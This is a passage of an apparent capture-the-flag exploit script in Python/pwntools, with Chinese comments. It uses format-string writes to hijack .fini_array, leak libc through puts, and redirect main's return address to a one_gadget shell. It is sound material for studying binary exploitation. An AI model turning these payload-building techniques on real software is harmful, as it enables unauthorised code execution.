    ```py
   edit(1,payload1)
   
   # 改变fini_array的值,再次执行程序
   __libc_start_main = libc.sym["__libc_start_main"]
   success("__libc_start_main==>"+hex(__libc_start_main))
   debug()
   payload3 = b'5'+b'a'*7 + p64(fini_addr) + p64(elf.got["puts"])    #这里是为了在栈上写入.fini_array的地址,再格式化字符串栈上的第13个位置
   submit(payload3)
   
   
   addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
   success("puts_addr==>"+hex(addr))
   libc_base = addr - libc.symbols["puts"]
   success("libc_base==>"+hex(libc_base))
   one_gadget_addr = libc_base + one_gadget
   success("one_gadget_addr==>"+hex(one_gadget_addr))
   
   
   p.recvuntil(b",0x")
   ret_addr = int(p.recv()[0:12],16)-0xe0
   success("ret_addr==>"+hex(ret_addr))
   # 
   #==============second==============
   # 
   # p.sendline(b"4")
   payload1 = b"a"*0x88+p64(0x151)
   p.sendline(b"1")
   p.sendlineafter(b':\n',payload1)
   free(4)
   
   
   one_gadget_addr2 = (((one_gadget_addr>>8)&0xffff) - (one_gadget_addr&0xff))
   success("one_gadget_addr2==>"+hex(one_gadget_addr2))
   
   payload1 = b'%' + int.to_bytes(one_gadget_addr&0xff) +b"c%13hhn%" + str(one_gadget_addr2).encode() +b"c%14hn"
   payload1 += b"M"*(0x74-len(payload1))
   edit(1,payload1)
   
   payload3 = b'5'+b'\x00'*7 + p64(ret_addr) + p64(ret_addr+1)    #这里修改main函数的返回地址指向onegadget
   submit(payload3)
   
   # p.sendline(b"cat flag")
   p.interactive()
   ```

   